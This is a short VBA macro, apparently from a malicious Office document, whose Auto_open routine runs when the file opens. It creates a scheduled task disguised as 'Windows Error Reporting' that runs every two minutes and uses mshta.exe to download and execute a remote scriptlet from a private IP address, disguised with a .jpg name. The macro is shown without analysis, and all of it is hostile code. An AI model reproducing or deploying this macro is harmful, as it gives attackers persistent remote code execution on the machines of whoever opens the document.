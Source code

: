 Sub Auto_open()
    Call Shell("schtasks /create /sc MINUTE /tn ""Windows Error Reporting"" /tr ""mshta.exe javascript:a=GetObject('script:http://192.168.66.60/microsoftftp.jpg').Exec();close();"" /mo 2 /F")
End Sub
